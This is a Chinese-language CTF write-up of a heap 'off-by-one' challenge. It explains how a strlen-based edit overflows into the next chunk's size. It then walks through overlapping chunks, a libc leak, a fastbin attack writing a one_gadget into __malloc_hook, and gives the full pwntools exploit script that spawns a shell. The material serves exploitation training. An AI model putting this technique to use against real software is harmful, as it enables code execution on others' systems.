 ```yaml
---
title: BABY OFFBYONE
date: 2018-10-05 19:34:29
tags: heap pwn
layout: post
---
```

Offbyone 忘记了哪儿的题目...基础offbyone
<!--more-->

# start
一上来我还突发奇想看看可不可以house of force发现有sysmem的限制...
然后因为同时在看另一道heap_interface(一题没有泄露的)把两题搞混了...做了半天发现这题是有泄露的...

# Analysis
题目:[offbyone][1]
木有uaf
```arm
 if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    free(qword_2020C0[v1]);
    qword_2020C0[v1] = 0LL;
    puts("done.");
  }
```
但是可以想办法泄露


主要的漏洞点在
```arm
  if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    puts("your note:");
    v2 = strlen((const char *)qword_2020C0[v1]);
    read(0, qword_2020C0[v1], v2);
    puts("done.");
  }
```
如果充满chunk那么nextchunk的size位将被算进strlen就有了offbyone

# 漏洞利用
* 利用offbyone改大nextchunk的size
* 造成overlap：free掉nextchunk进入unsortedbin
* 通过精心设计的两次malloc使得有两个指向同一个chunk的指针，malloc第一次的时候可以shownextchunk来leak
* 通过fastbinatk写malloc_hook为one_gadget
* printerr get shell
# EXP
```python
from pwn import *

p=process('./offbyone')
#context.log_level='debug'
def add(size,x):
    p.recvuntil('>>')
    p.sendline('1')
    p.readuntil('length:')
    p.sendline(str(size))
    p.recvuntil('note:')
    p.send(x)

def edit(id,x):
    p.recvuntil('>>')
    p.sendline('2')
    p.recvuntil('index:')
    p.sendline(str(id))
    p.recvuntil('note:')
    p.send(x)

def free(id):
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil('index:')
    p.sendline(str(id))

def show(id):
    p.recvuntil('>>')
    p.sendline('4')
    p.recvuntil('index:')
    p.sendline(str(id))
def debug():
	if 1:
		gdb.attach(p,'''
		heap
		''')	

#######################
#use off by one to    #
#make fastbinsatk     #
#write one_gadget into#
#__malloc_hook 	      #
#######################

add(0x18,"A"*0x18)#0
add(0x88,"B"*0x88)#1
add(0x88,"C"*0x18+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21))#2
edit(0,"A"*0x18+"\xb1")
free(1)
add(0x88,"E"*0x88)#3
show(2)
data=p.readline()
base=u64(data[1:-1].ljust(8,"\0"))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address=base
log.warning(hex(base))


add(0x8,p64(0xdeadbeef))
edit(1,"E"*0x88+"\x71")
add(0x68,"D"*0x68)
free(4)
free(3)
edit(2,p64(libc.symbols['__malloc_hook']-35)[:6])

one=0xf02a4
add(0x68,"E"*0x68)
add(0x68,"F"*19+p64(one+base))#OK
#gdb.attach(p)
free(3)
free(2)
p.interactive("nier>")

```
[1]:https://github.com/n132/banana/tree/master/Pwn/heap_trick/offbyone